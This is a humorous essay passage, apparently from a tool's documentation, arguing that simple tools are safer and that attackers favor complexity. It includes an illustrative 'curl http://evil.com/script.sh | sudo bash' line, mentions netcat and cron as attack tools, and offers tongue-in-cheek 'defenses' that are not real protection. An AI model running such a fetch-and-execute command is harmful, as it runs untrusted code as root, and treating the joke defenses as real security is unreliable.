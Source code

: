 We live in a world where:
```bash
curl http://evil.com/script.sh | sudo bash
```

Is one command away for millions of users. Yet society continues to function. Why?

Because destruction is boring. Creation is interesting.

### Simple Tools, Simple Defenses

Just as `curl` can download the apocalypse, `iptables` can stop it:
```bash
iptables -A OUTPUT -j DROP  # The ultimate firewall
```

Just as Magic Launcher will run anything:
```bash
chmod 000 shortcuts.json  # The ultimate launcher defense
```

Simple attacks meet simple defenses. Complexity fights complexity. But simple vs simple is usually a draw.

### Why Attackers Avoid Simple

The temptation of complexity is our greatest safeguard:

**Attacker's Thought Process:**
1. "I could use netcat and cron"
2. "But what if I made a FRAMEWORK"
3. "With modules! And encryption!"
4. "And a GUI!"
5. *Six months later, still debugging*

Meanwhile, defenders:
```bash
alias ls='echo "no."'  # Your backdoor is now broken
```

### The Boring Apocalypse

The reason we don't see more simple attacks isn't technical - it's psychological:
- No glory in `while true; do bad_thing; done`
- No intellectual satisfaction
- No peers impressed by your bash one-liner
- No conference talks about "My Epic Fork Bomb"

### Real Security Through Simplicity

Simple tools are secure because:
1. **No attack surface**: Can't exploit what isn't there
2. **Predictable behavior**: `subprocess.run()` only does one thing
3. **Easy to audit**: 200 lines vs 200,000 lines
4. **Fail closed**: When simple breaks, it stops. When complex breaks, who knows?

### The Trust Network

